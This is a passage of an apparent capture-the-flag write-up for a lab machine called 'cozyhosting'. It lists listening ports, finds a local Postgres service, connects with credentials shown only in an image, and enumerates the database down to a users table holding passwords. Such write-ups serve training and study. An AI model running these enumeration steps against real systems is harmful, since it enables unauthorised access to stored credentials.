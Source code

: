 A Postgres database is only listening on localhost on its default port.

```shell
app@cozyhosting:/app$ ss -ntlp
State  Recv-Q Send-Q      Local Address:Port Peer Address:PortProcess                            
LISTEN 0      511               0.0.0.0:80        0.0.0.0:*                                      
LISTEN 0      5                 0.0.0.0:8081      0.0.0.0:*    users:(("python3",pid=20197,fd=3))
LISTEN 0      4096        127.0.0.53%lo:53        0.0.0.0:*                                      
LISTEN 0      128               0.0.0.0:22        0.0.0.0:*                                      
LISTEN 0      244             127.0.0.1:5432      0.0.0.0:*                                      
LISTEN 0      100    [::ffff:127.0.0.1]:8080            *:*    users:(("java",pid=1062,fd=19))   
LISTEN 0      128                  [::]:22           [::]:*
```

Credentials are used to access the database.

![](img/cozyhosting13.png)

The database is enumerated.

```shell
postgres-# SELECT datname FROM pg_database;
   datname   
-------------
 postgres
 cozyhosting
 template1
 template0
(4 rows)
```

```shell
postgres-# \c cozyhosting
SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, bits: 256, compression: off)
You are now connected to database "cozyhosting" as user "postgres".

cozyhosting-# \dt
List of relations
 Schema | Name  | Type  |  Owner   
--------+-------+-------+----------
 public | hosts | table | postgres
 public | users | table | postgres

cozyhosting-# \d users
Table "public.users"
  Column  |          Type          | Collation | Nullable | Default 
----------+------------------------+-----------+----------+---------
 name     | character varying(50)  |           | not null | 
 password | character varying(100) |           | not null | 
 role     | role                   |           |          | 
Indexes:
    "users_pkey" PRIMARY KEY, btree (name)
Referenced by:
```